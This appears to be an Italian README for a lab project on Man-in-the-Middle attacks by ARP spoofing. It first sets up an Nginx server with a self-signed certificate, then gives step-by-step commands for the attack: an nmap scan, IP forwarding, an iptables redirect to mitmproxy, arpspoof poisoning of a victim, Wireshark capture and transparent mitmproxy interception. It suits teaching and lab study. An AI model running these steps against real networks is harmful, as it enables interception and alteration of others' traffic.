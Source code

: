 # Attacco Man-in-the-Middle tramite ARP spoofing
Questo progetto esplora tecniche di attacco Man-in-the-Middle tramite ARP spoofing, con l'obiettivo di intercettare, analizzare e modificare il traffico di rete tra un client e un server.

- [Configurazione del server](#1-configurazione-del-server)
- [Configurazione del MitM](#2-Configurazione-del-MitM)

## 1. Configurazione del server

### 1.1 Installazione di Nginx

```
$ sudo apt install nginx -y
```

### 1.2 Generazione del certificato self-signed
Creare una directory per i certificati SSL:

```
$ sudo mkdir -p /etc/nginx/ssl
```


Generare un certificato self-signed con OpenSSL:

```
$ sudo openssl req -x509 -nodes -days 365 -newkey rsa:2048 \
-keyout /etc/nginx/ssl/nginx-selfsigned.key \
-out /etc/nginx/ssl/nginx-selfsigned.crt
```

**Descrizione dei parametri**:
- `-x509`: crea un certificato in formato x509.
- `-nodes`: disabilita la richiesta di una passphrase per la chiave privata.
- `-days 365`: imposta la durata del certificato a 365 giorni.
- `-newkey rsa:2048`: genera una nuova chiave RSA a 2048 bit.

### 1.3 Configurazione di Nginx

```
$ sudo nano /etc/nginx/sites-available/default
```

Aggiungere la seguente configurazione, sostituendo `<IP_addr>` con l'indirizzo IP del server:

```
server {
    listen 80 default_server;
    listen [::]:80 default_server;
    server_name <IP_addr>;

    # Reindirizzamento da HTTP a HTTPS
    return 301 https://$host$request_uri;
}

server {
    listen 443 ssl;
    server_name <IP_addr>;

    ssl_certificate /etc/nginx/ssl/nginx-selfsigned.crt;
    ssl_certificate_key /etc/nginx/ssl/nginx-selfsigned.key;

    location / {
        proxy_pass http://localhost:8080;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

### 1.4 Verifica e riavvio di Nginx
Verificare la configurazione e riavviare il servizio:

```
$ sudo nginx -t
$ sudo systemctl restart nginx
```

### 1.5 Avvio dei container Docker
Clonare la repository e avviare i container:

```
$ git clone https://github.com/SenapeDev/CySec.git
$ cd server
$ docker compose up --build -d
```

### 1.6 Gestione della modalità HTTPS
Per attivare o disattivare HTTPS tramite Makefile:

```
$ make https-on
$ make https-off
```
- `https-on`: attiva il reindirizzamento verso HTTPS.
- `https-off`: disattiva il reindirizzamento HTTPS, tornando a HTTP.
---

## 2. Configurazione del MitM

### 2.1 Installazione di Nmap

```
$ sudo apt install nmap -y
```

### 2.2 Scansione della rete locale con Nmap
Per trovare gli indirizzi l'indirizzo IP dell'host che ospita il sito web all'interno della rete locale, eseguire:

```
$ nmap -p 80,443 --open -sV <IP_range>
```

**Descrizione dei parametri**:
- `-sV` rileva i servizi attivi e tenta di identificare l’applicazione web in esecuzione.
- `--open` mostra solo gli host con porte aperte.
- `<IP_range>` è il range degli indirizzi IP in cui viene effettuata la scansione.

### 2.3 Abilitazione del packet forwarding
Abilitare il packet forwarding per consentire la ritrasmissione dei pacchetti tra server e vittima:

```
# echo 1 > /proc/sys/net/ipv4/ip_forward
```

### 2.4 Configurazione di iptables per la redirezione del traffico
Reindirizzare il traffico HTTP verso la porta 8080 (utilizzata da `mitmproxy`):

```
$ sudo iptables -t nat -A PREROUTING -p tcp -s <src_IP> --dport 80 -j REDIRECT --to-port 8080
```

Questo comando utilizza la tabella `nat` di iptables per redirigere il traffico destinato alla porta 80 all’indirizzo specificato, verso la porta 8080. Le modifiche non sono permanenti e saranno rimosse al riavvio.

### 2.5 Verifica delle regole impostate
Per verificare le regole `iptables` attive:

```
$ sudo iptables -t nat -L -v -n
```

Il comando elenca tutte le regole impostate nella tabella `nat` di iptables con dettagli (`-v`) e senza risoluzione di nomi (`-n`).

### 2.6 Installazione di dsniff
Installare `dsniff` per eseguire l’ARP spoofing:

```
$ sudo apt install dsniff
```

### 2.7 Esecuzione di ARP Poisoning
Utilizzare `arpspoof` per ingannare la vittima e farle credere di comunicare con il server:

```
# arpspoof -i <interface> -t <src_IP> <dest_IP>
```

Questo comando invia pacchetti ARP all'indirizzo IP della vittima (`<src_IP>`) per impostare l'indirizzo `<dest_IP>` (il server impersonato) come mittente, sfruttando l'interfaccia di rete specificata (`<interface>`).

### 2.8 Installazione di Wireshark
Per catturare e analizzare il traffico di rete, installare Wireshark:

```
$ sudo apt install wireshark -y
```


### 2.9 Intercettazione di pacchetti con Wireshark
Avviare Wireshark per catturare il traffico:

```
$ sudo wireshark
```

### 2.10 Installazione di mitmproxy
Installare `mitmproxy` per manipolare le richieste:

```
$ pip install mitmproxy
```

### 2.11 Installazione dello script per mitmproxy
```
$ git clone https://github.com/SenapeDev/CySec.git
```
### 2.12 Intercettazione e modifica delle richieste con mitmproxy
Eseguire `mitmproxy` in modalità trasparente per intercettare e modificare il traffico HTTP:

```
$ cd mitm
$ mitmproxy -s main.py --mode transparent
```

Questo comando avvia `mitmproxy` in modalità trasparente (`--mode transparent`) per intercettare il traffico senza configurazioni sul client.
